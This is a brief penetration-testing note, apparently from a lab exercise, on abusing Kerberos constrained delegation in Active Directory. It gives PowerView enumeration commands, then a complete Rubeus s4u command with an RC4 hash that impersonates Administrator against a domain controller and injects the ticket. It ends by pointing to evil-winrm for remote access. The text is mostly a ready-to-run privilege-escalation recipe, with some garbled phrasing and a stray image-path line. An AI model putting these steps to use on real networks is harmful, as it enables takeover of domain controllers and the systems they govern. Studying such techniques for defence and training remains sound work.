 	Desc:
		Use ptt attacks and constrained delegations by SPN that use protocols and delegating a super user

	Usage:
	
		Enumerate who has DELEGATIONS property:
			powershell-sessionmsds-allowedtodelegateto  
		Uses powerview to enum:
			PowerView-main.ps1
			Get-NetUser -TrustedToAuth`
		if we already compromised the service account who delegates, we can do a ptt attack.
		Hash the pass to NTLM if necessary
		Start with Rubeus ptt and s4u attack to generate a in memory  privlege escalated user delegation example:
			.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
			list the ticket with klist
		the example is requesting for http service on DC1 with a privileged user
		winrm uses http, therefore evil-winrm is possible
`